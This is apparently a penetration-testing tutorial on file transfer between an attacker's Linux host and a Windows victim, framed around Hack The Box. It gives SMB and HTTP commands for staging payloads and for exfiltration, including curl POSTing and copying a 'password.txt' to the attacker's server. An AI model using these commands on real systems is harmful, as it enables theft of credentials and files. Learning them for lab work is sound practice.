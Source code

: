 1. In the previous article on File Transfer Techniques, we wrote about transferring files by converting it into base 64 and storing it in the clipboard.
2. However, this technique is not really suitable for large files.
3. Thus, in this post, I will be introducing two new techniques: Server Message Block (SMB) and Hypertext Transfer Protocol (HTTP)
4. As usual, I will assume that our attacker host is a Linux machine (`1.1.1.1`) while the other machine is a Windows machine (`2.2.2.2`).

# Server Message Block (SMB)
1. SMB is a Microsoft service/protocol. Thus, it will only work on Windows machines (usually). However, it is possible to use SMB on a Linux too.
2. The reason I introduce this technique is because it is very useful to exfiltrate information on Windows boxes in Hack The Box.
3. SMB works based on a server-and-client model.
4. To start an SMB server on our attacker host,
```sh
sudo impacket-smbserver myShare -smb2support ./smbShare -user test -password test
```
- `impacket-smbserver`: Impacket has provided us with an easy-to-use module for SMB server
- `myShare`: The name of the share that we will create
- `-smb2support`: Specifies that we will use SMB version 2. (SMB version 1 may be disabled by default on the Windows machine due to major security vulnerabilities, such as Eternal Blue)
- `./smbShare`: This is the directory that we will share with the clients
- `-user`: Specify username to access the share
- `-password`: Specify password to access the share

5. To mount the share on our victim host,
```cmd
net use n: \\1.1.1.1\myShare /u:test test
net use <drive-name>: \\<server-name>\<share-name> /u:<username> <password>
```
- `net use`: Command to mount a share
- Note that the drive name has to be an unused drive, so avoid the `C:` or `D:` drive.
## Linux <-> Windows
6. Now, if we copy a file into our `./smbShare` directory in our attacker host,
```sh
cp payload.txt ./smbShare
```
7. It will appear on the victim host's `n:\` drive.
```cmd
dir n:\
```
- I recommend copying the file to another folder we control because the network drive tends to be a bit slower.
8. The victim host can also copy files to share into this drive.
```cmd
copy password.txt n:\
```
- This file will be accessible in the attacker host
# Hypertext Transfer Protocol (HTTP)
1. I would usually use HTTP server when doing Linux boxes, but this technique should work for Windows boxes too. (HTTP works on a server-client model too)
2. To create a simple HTTP server on the attacker host, I like to use 
```sh
python3 -m uploadserver
```
- This will set a server at `<your-ip>:8000`
## Linux -> Windows
3. To pull a file from the attacker host into the victim host from the victim host,
```cmd
curl http://1.1.1.1:8000/payload.txt
curl http://<server-ip>:8000/payload.txt
```
- Also note that payload.txt must be in the same directory as the directory you set up your server (ie the directory you run `python3 -m uploadserver`)
## Windows -> Linux
4. You can also push a file from the victim host to the server (attacker host).
```cmd
curl -X POST http://1.1.1.1:8000/upload -F "files=@./password.txt"
curl -X POST http:/<server-ip>:8000/upload -F "files=@<path-to-file>"
```
